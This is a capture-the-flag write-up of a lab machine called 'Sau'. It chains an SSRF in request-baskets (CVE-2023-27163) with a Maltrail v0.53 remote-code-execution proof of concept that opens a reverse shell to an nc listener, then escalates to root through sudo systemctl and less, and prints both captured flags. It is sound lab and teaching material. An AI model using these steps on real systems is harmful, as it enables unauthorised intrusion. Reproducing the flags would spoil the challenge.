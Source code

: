 ![[Sau.png]]
# Initial Reconnaissance
1. `curl 10.10.11.224 -I` to find possible DNS location, but there's no response
2. visiting the webpages seems to return timeout
3. `nmap -sVC 10.10.11.224` to find any other open port, and there's a port opened at 55555 running an unknown service, visiting the pages shows a `request-baskets 1.2.1`
4. a simple search lead me to an RCE assigned `CVE-2023-27163` and there's a POC available here `https://github.com/entr0pie/CVE-2023-27163`

# User Escalation
1. clone the POC then run the script `sh exploit.sh http://10.10.11.224:55555 http://127.0.0.1:80`, i am creating an SSRF to the localhost in port 80
2. then it will return a link to the basket, which in my case its `http://10.10.11.224:55555/apchog`, visiting the pages shows a webpages running `maltrail v0.53` which has a possible RCE via the `/login`, with assigned ``
3. POC can be found here `https://github.com/spookier/Maltrail-v0.53-Exploit`, clone the repo, before doing anything, create another basket that target to the `127.0.0.1:80/login`, note: the POC is updated by default to be by default to target `/login`, all i need was to specify the `127.0.0.1:80` as the target
4. after obtaining the new url, setup an nc listener because the Maltrail POC is actually a reverse shell `nc -lvnp port`
5. then run the exploit `python3 exploit.py your-ip port http://10.10.11.224:55555/lrcaxk`
6. check the nc listener, should be a `$` spawned, which mean the connection is established, try to do `id` or `pwd` to make sure
7. i logged in as user `puma`, now this is an unstable shell, to secure a robust shell use this python oneliner `python3 -c "import pty; pty.spawn('/bin/bash')"`
8. `cd`, then `cat user.txt`
9. flag: `71774d498b42338de22f1d3f764345f7`

# Further Reconnaissance
1. `sudo -l`, to see any possible sudo command to exploit, seems like i could check the service `trail.service` with `systemctl` as sudo and no password needed

# Privilege Escalation
1. based on this article `https://bugzilla.redhat.com/show_bug.cgi?id=713567` `systemctl` actually returns all of it's output via `less`
2. find the exploit in `https://gtfobins.github.io/gtfobins/less/#sudo`
3. run the allowed command `sudo systemctl status trail.service`
4. then just input `#!/bin/bash` and enter
5. notice i have escalated as root
6. `cat /root/root.txt`
7. flag: `498a0229bb9d4cb391a34f968e0cbe92`

![[Sau-Pwned.png]]
